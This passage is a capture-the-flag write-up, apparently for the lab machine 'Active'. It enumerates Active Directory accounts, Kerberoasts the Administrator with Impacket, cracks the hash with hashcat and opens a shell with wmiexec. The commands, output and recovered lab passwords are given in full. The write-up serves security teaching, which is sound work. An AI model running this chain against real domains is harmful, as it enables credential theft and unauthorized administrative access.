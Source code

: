 
Get users for the domain `SVC_TGS`:

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
```

Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated with a particular service instance. ldapsearch can be used to identify accounts that are configured with SPNs.

We reuse the previous query and add a filter to catch SPNs, (serviceprincipalname=*/*) :

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b
"dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!
(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName

dn: CN=Administrator,CN=Users,DC=active,DC=htb
servicePrincipalName: active/CIFS:445
```

It seems that the active\Administrator account has been configured with an SPN. Impacket’s GetUserSPNs.py lets us request the TGS and extract the hash for offline cracking.

```
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password: GPPstillStandingStrong2k18
SPN              Name           MemberOf
---------------  -------------  ---------------------------------------------------
active/CIFS:445   Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
<...SNIP....>

Password: GPPstillStandingStrong2k18
<...SNIP...>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$73fd1c3cdfb6f1085f60218dc0
5d9b90$d8728890eed6dbfd4c7ac4a90d432af56e5ceb9cdb82c3ed943d64bca639c46f67c9e2892eae6b84fad
ce3215f550ba9aac436212ecdc0cdf93adc5a33547f31907bd79d4ec8826063cd18e07493eb7eb5b1a1efe1f53
08308489f2e101432ac40a6969861ff1c93fdec9ae1abb1b237c59bb866dcc7d028297f75e3110436dc5446f3f
8d36ec58b780384b0f6c02a6f1b76e283d3ed00dcc4a69061d5e02119cb79671e17ffce51cac8967606d2b0140
77c52064ccaf42ee7d2465818d56f12bc2daa2910e92740ebeaf78cd574a3919fabb04ae86f0c93b82e05e41d5
8b1d83d85407a9577823b30125d270e4dcec1dd0c4faa4eb87fd5110c281b9cfb1f5844507421984935eb63109
88319aaeb0b0d4e91849f4e6a15c9f024558b0e982d056d8ce3fcb5eea8a5eca7db51612ae1dfba0770a54e43a
79e5af5daa4366b8c752f6f8b060de90d4c5e21d473b503f4503a26cd3834400fd19141821244862a1d65e139a
d0640aa26478638c87dc715120cb8e2bb7e4d51ac21802d3b26c1d6207022c071fe9361c0c9b96767cd9bb0ce3
c3c3fe48fa0157f4fdd7a56fda7af540ed565eefd58c7ca7f8e5cae13333695897dd3acc01eee8d7870f55955e
3fc7a5946a61424e6dd5c243abfe11716dbc2e2ca435949c5f49feb9582b7a9d2eae6f7d9aa720b786468ce6ec
7ef5b879c764e59574de70345aa79898eb26d09bb6dd3e2e8b87e96ee60cb9dbde6365a201ae307698c162ea72
41f22b964960b1916b9fcb5e1981f5fd02ed0590a9862eb3a6b5e9a14cb99c3bfb72abfd4a7faef5766ac9f05f
aff37860acb0c00cfd90d2cda321a12f3dd08ffd1a36dbd8452d5ee92f0e90f9d78c6b8228ed333984d717cc99
26a8751d7ed0c14fde671f8413c361e72a48472acffa25fc931b4db96224f14427251662a4b934190bb215e8c0
727958432cb751dd8bf81c2dcdeeb355f45b0faf80388abac80c9cabfa7ce6a7ddf36c7fa2d02c5b168d00ce72
9e555f1cba3ad455d5dfb7c8360d5c1b021a3549065eceda11e0f109c9fed1720e2a2e3a111715698c60480aae
043501b35f527fe353a4c9a03ff46c6e438e411bbcfa3ea8ee3e8fbee38d464a43304a9a0607076748a19ff94b
6ad704674f6d8a0f29a9575a4b121b1143f8376ffc98dbce58589ec356deb592808052d530baa49c3ae5af846a
9b4047ce682f7473703c5dd1d8cf585eab3082e00cfaf23289dbffa1925ba26e41c3ba7e682cb
```

#### Cracking of Kerberos TGS Hash

We use hashcat with the rockyou.txt wordlist to crack the hash and obtain the active\administrator password of Ticketmaster1968 .

```
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat (v6.1.1) starting...

<...SNIP...>
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$krb5tgs$23$*Administrator$ACTIVE.HTB$<...SNIP...>:Ticketmaster1968
<...SNIP...>
Started: Mon Nov 27 12:18:48 2023
```

Impacket’s wmiexec.py can be used to get a shell as active\administrator , and read root.txt .

```
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
active\administrator
```

